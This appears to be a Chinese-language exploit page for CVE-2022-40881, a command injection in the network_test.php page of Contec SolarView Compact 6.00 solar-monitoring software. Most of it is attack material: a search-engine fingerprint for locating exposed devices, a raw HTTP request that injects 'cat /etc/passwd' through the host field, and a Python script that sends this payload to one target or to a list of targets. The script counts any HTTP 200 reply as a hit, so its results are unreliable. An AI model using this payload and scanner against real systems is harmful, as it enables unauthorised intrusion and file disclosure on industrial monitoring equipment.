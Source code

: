 # SolarView Compact 命令注入漏洞 CVE-2022-40881

## 漏洞描述

Contec SolarView Compact是日本Contec公司的一个应用系统。提供光伏发电测量系统。Contec SolarView Compact 6.00版本存在安全漏洞，攻击者利用该漏洞可以通过 network_test.php 的命令注入攻击。

## 漏洞影响

```
SolarView Compact 6.00
```

## 网络测绘

```
body="SolarView Compact" && title=="Top"
```

## 漏洞复现

发送数据包：

```
POST /cgi-bin/network_test.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

host=%0acat${IFS}/etc/passwd%0a&command=ping
```

## 漏洞POC

```python
import sys
import requests
import argparse

def poc_scan(url):
    try:
        url = url + "/network_test.php"
        response = requests.post(url,data = "host=%0acat${IFS}/etc/passwd%0a&command=ping",timeout=2)
        if response.status_code == 200:
            print(f"\033[92m[+] {url} is vulnerable!\033[0m")
        else:
            print(f"\033[31m[-] {url} is not vulnerable!\033[0m")
    except:
        pass


def open_file(filename):
    with open(filename, 'r', encoding='utf-8') as f:
        filecontent = f.read()
    return filecontent

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url")
    parser.add_argument("-f", "--file")
    args = parser.parse_args()
    url = args.url
    filename = args.file

    if sys.argv[1] == '-u':
        poc_scan(url)
    else:
        filecontent = open_file(filename)
        filecontent = filecontent.split("\n")
        for i in filecontent:
            poc_scan(i)
```

## 修复建议

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://www.contec.com/products-services/environmental-monitoring/solarview/

